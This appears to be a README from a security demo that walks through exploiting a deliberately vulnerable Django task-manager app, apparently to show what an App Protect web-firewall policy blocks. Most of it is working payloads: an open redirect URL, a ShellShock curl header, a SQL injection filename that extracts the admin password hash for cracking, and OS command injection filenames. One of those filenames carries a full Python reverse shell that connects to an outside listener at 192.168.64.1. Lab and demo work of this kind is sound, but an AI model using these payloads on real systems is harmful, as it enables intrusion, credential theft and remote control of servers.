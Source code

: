 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:


/taskManager/register triggers the SQL Injection Syntax Error algorithm.  It's best to disable it for this app.

/taskManager/login/, /taskManager/logout and others triggers Redirect Protection.  Need to alter policy to allow http://127.0.0.1:8000/*


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and past in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:
```
1. Go to http://127.0.0.1:8000/ and click "Sign Up"
```
```
2. Fill out the form and click Register (remember your username and password.  ie: test, test, test, test@test.com test)
```
```
3. Login as the new user.
```
```
4. Once logged in, create a new project by replacing the URL with:  http://127.0.0.1:8000/taskManager/project_create
```
```
5. Fill out the form with some data.  Be sure to select a future date for the project due date!
```
```
6. Click the link for the new project you just created.
```
```
7. Click the "Add files" link.  
```
```
8. Pick any file from your local computer, and use the following payload for the filename:

'||(SELECT password FROM auth_user WHERE username='admin')||'

```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.


python reverse shell:
```
some_file_name; python -c 'import socket, subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("192.168.64.1", 8001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

